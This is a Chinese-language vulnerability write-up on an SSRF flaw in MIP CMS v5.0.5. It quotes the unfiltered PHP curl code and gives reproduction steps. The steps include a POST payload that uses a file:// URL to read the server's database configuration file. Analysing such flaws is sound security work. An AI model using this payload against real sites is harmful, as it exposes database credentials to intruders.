 MIP建站系统 v5.0.5 SSRF漏洞
===========================

一、漏洞简介
------------

二、漏洞影响
------------

MIP建站系统 v5.0.5

三、复现过程
------------

### 漏洞分析

进行简单的漏洞分析。根据漏洞定位代码文件：app/setting/controller/ApiAdminDomainSettings.php受影响代码：

    public function urlPost(Request $request) {
            $postAddress = input('post.postAddress');
            if (!$postAddress) {
                return jsonError('请先去设置推送的接口');
            }
            $api = trim($postAddress);
            if (strpos($api,'type=realtime') !== false || strpos($api,'type=batch') !== false) {
                if (!config('siteInfo')['guanfanghaoStatus']) {
                    return jsonError('检测到您未开启熊掌号，请开启后再推送');
                }
            }
            $url = input('post.url');
            $id = input('post.id');
            if (!$url) {
                return jsonError('没有检测到你推送的页面地址');
            }   
            $urls[] = $url;
            $ch = curl_init();
            $options =  array(
                CURLOPT_URL => $api,
                CURLOPT_POST => true,
                CURLOPT_RETURNTRANSFER => true,
                CURLOPT_POSTFIELDS => implode("\n", $urls),
                CURLOPT_HTTPHEADER => array('Content-Type: text/plain'),
            );
            curl_setopt_array($ch, $options);
            $result = curl_exec($ch);

流程分析：

    1、$ postAddress = input('post.postAddress');  
        //POST方法将$postAddress参数传入

    2、$api = trim($postAddress);    
    $options =  array(
                CURLOPT_URL => $api,
                CURLOPT_POST => true,
                CURLOPT_RETURNTRANSFER => true,
                CURLOPT_POSTFIELDS => implode("\n", $urls),
                CURLOPT_HTTPHEADER => array('Content-Type: text/plain'),
            );
            curl_setopt_array($ch, $options); 
        //赋予$api参数，一直至$ch，未进行任何过滤
    3、$result = curl_exec($ch);    
        //最后执行

### 漏洞复现

第一步，登陆该后台：

第二步，访问所受影响的代码文件：

    http://www.0-sec.org/index.php？s=/setting/ApiAdminDomainSettings/urlPost；
    POST方法进行请求，payload：  
    postAddress=file:///C:\phpStudy\PHPTutorial\WWW\app\database.php&url=test&id=test

![](./resource/MIP建站系统v5.0.5SSRF漏洞/media/rId26.png)

参考链接
--------

> https://xz.aliyun.com/t/7431
